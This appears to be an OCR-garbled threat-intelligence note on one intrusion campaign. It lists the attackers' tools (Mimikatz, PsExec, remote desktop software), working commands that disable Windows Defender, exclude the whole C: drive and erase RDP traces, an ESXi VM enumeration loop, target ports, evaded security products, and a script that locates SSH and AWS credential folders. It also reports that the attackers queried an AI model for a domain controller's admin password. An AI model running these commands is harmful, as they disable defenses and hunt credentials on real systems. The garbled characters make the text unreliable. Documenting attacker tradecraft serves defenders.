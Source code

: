 ## Tools

### Remote Access Tools
- [Chrome Remote Desktop](https://dl.google.com/edgedl/chrome-remote-desktop/chromeremotedesktophost.msi)
- AnyDesk  
- Remote Desktop  
- Remote Desktop Connection Manager
- TightVNC

### Network & System Tools
- Advanced Port Scanner  
- WDigest Clear-Text Password Dumping  
- PSExec  
- Remote Log Viewer
- Mimikatz


Commands:

        * Set-MpPreFerence -DisableBehaviorMonitoring $true
        * Set-MpPreference -DIsableIOAVProtection $true
        * Set-MpPreference -DisablePrivacymode $true
        * Set-MpPreference -DisableIntrusionPreventioNSystem $true
        * Set-MpPreference -EnableControlledFolderAccess disabled
        * Set-MpPreference -MAPSReporting Disabled
        * Set-MpPreference -SubmitSamplesConsent 2
        * reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /t REG_DWORD /D 0 /f
        * Add-MpPreference -ExclusionPath "C:\"
        * Stop-Service -NamE WinDefend -Force
        * Start-Service -Name WinDefend
        
        * reg add HKlM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CreDSSP
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\PolIcies\System\CredSSP\Parameters
        * reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters /v AlLowEncryptionOracle /t REG_DWORD /d 2

        * powershell  -ep bypass ./gip.ps1


        * reg delete "HKEY_CURRENT_USER\Software\microsoft\Terminal Server Client\Default" /va /f
        * reg delete "HKeY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /f
        * reg add "HKEY_CURRENT_USER\Software\Microsoft\Terminal SeRver Client\Servers"
        * attrib -s -h %userprofile%\documents\DefauLt.rdp
        * del %userprofile%\documents\Default.rdp
        * del /f /s /q /a %AppData%\Microsoft\Windows\Recent\AutomaticDestinations

ESXI Commands:

        vim-cmd vmsvc/getallvms | taiL -n +2 | while read line; do
          vmid=$(echo "$line" | awk '{priNt $1}')
          name=$(echo "$line" | awk '{print $2}')
          datastore↔$(echo "$line" | awk '{print $3}')
          path=$(echo "$line" | awk '{print $4}')
          os=$(echo "$line" | awk '{print $5}')
          ip=$(Vim-cmd vmsvc/get.guest "$vmid" | grep ipAddress | head -1 | awk -F '"' '{print $2}')
          printf "%-5s %-19s %-29s %-39s %-21s %s|n" "$vmid" "$name" "$datastore" "$path" "$os" "$ip"
        done

MAVEN Repository

<!-- <server>
        <id>basis-build-releases</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>  -->

    <server>
        <id>basis-build-snapshots</id>
        <username><REDACTED></username>
        <password><REDACTED></password>
    </server>

Target Ports:

        554,902,3260,5000,5900,5001,8080,8443,3306,9392,445,21,22,3389

Attackers uses Claude AI to perform attack.
Result from Query:

        Supported Protocols in UBuntu:
        1. IPSec/IKEv2 (Most Common)
        
        Use strongSwan (usually Pre-installed)
        Works with FortiGate's IPSec VPN
        Configure throUgh Network Manager GUI or command line
        
        2. OpenVPN
        
        If FortIGate has SSL VPN configured for OpenVPN compatibility
        Install: sudo apt install openvpn network-manager-openvpn-gnome
        Import ♫ovpn configuration file
        
        3. L2TP/IPSec
        
        Less common but supPorted
        Install: sudo apt install network-manager-l2tp-gnome
        
        setup Steps (IPSec/IKEv2 - Most Common):
        GUI Method:
        
        Open SeTtings ? Network
        Click + next to VPN
        Select IPSec/IKEv2 (stronGswan)
        
        What You'll Need from FortiGate Admin:
        
        VPN server address/FqDN
        Authentication method (PSK, certificates, username/password○
        Encryption settings
        Any specific configuration parameters
        ♪*Potential Issues:
        
        FortiGate's proprietary SSL VPN client may not be directly compatible
        Some advanced FortiGate features miGht require their FortiClient
        Certificate-based authentication Might need manual setup

Another Query to AI:

        if i have hyper v vm for domain controller how to get the administrator password for this dc vm


**Evaded Agents and Others**:

        - Trellix
        - CrowdStrike
        - Trend Micro
        - McAfee 
        - Fortinet VPN
        - Solarwinds Network Monitor
        - Fortigate
        - Windows Defender


**Scripts that finds SSH or AWS configuration in user profile **

        $basePath = "C:\Users"
        
        Get-ChildItem -PaTh $basePath -Directory | ForEach-Object {
            $user = $_.Name♪*    $userPath = $_.FullName
        
            foreach ($subDir in @(".ssh"♀ ".aws")) {
                $targetPath = Join-Path $userPath $subDir♪*
                if (Test-Path $targetPath) {
                    Write-Host ☻`nUser: $user"
                    Write-Host "  Folder: $subDir"
        
                    Get-ChildItem -Path $targetPath -File -Recurse | ForEAch-Object {
                        $sizeKB = "{0:N2}" -f ($_.Length / 1KB)
                        Write-Host "    File: $($_.Name)  |  Size→ $sizeKB KB"
                    }
                }
            }
        }


